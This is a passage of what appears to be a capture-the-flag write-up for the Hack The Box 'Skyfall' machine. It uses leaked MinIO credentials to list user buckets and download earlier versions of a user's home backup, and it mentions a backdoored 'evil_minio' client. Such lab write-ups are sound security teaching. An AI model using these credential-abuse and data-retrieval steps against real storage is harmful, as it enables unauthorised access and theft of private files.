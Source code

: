 Now install `mc` binary from MinIO

```bash
wget https://dl.min.io/client/mc/release/linux-amd64/mc
chmod +x mc
sudo mv mc /usr/local/bin/
```

Add an alias with the credentials

```bash
mc alias set skyfall http://prd23-s3-backend.skyfall.htb/ 5GrE1B2YGGyZzNHZaIww GkpjkmiVmpFuL2d3oRx0
```

And now we can dig around, `askyy` is the only user with extra files.

```bash
$ mc ls skyfall
[2023-11-07 23:59:15 EST]     0B askyy/
[2023-11-07 23:58:56 EST]     0B btanner/
[2023-11-07 23:58:33 EST]     0B emoneypenny/
[2023-11-07 23:58:22 EST]     0B gmallory/
[2023-11-07 19:08:01 EST]     0B guest/
[2023-11-07 23:59:05 EST]     0B jbond/
[2023-11-07 23:58:10 EST]     0B omansfield/
[2023-11-07 23:58:45 EST]     0B rsilva/

$ mc ls skyfall/askyy
[2023-11-08 00:35:28 EST]  48KiB STANDARD Welcome.pdf
[2023-11-09 16:37:25 EST] 2.5KiB STANDARD home_backup.tar.gz

$ mc cp skyfall/askyy/home_backup.tar.gz ~/htb/skyfall/home_backup.tar.gz
```

This backup stands out of course, but theres no important data it seems..

After research we find something promising called `evil_minio`, a patched mc binary which can be updated through mc using an external link. Giving us a backdoor.

This sadly might of been a rabbit hole.

Going back we can instead check to see if theres more versions of home_backup that askyy might of saved, there is.

```sh
$ mc ls --versions skyfall/askyy
[2023-11-08 00:35:28 EST]  48KiB STANDARD bba1fcc2-331d-41d4-845b-0887152f19ec v1 PUT Welcome.pdf
[2023-11-09 16:37:25 EST] 2.5KiB STANDARD 25835695-5e73-4c13-82f7-30fd2da2cf61 v3 PUT home_backup.tar.gz
[2023-11-09 16:37:09 EST] 2.6KiB STANDARD 2b75346d-2a47-4203-ab09-3c9f878466b8 v2 PUT home_backup.tar.gz
[2023-11-09 16:36:30 EST] 1.2MiB STANDARD 3c498578-8dfe-43b7-b679-32a3fe42018f v1 PUT home_backup.tar.gz

$ mc cp --version-id 2b75346d-2a47-4203-ab09-3c9f878466b8 skyfall/askyy/home_backup.tar.gz ~/htb/skyfall/askyy/home_backupV2.tar.gz
$ mc cp --version-id 3c498578-8dfe-43b7-b679-32a3fe42018f skyfall/askyy/home_backup.tar.gz ~/htb/skyfall/askyy/home_backupV1.tar.gz
```
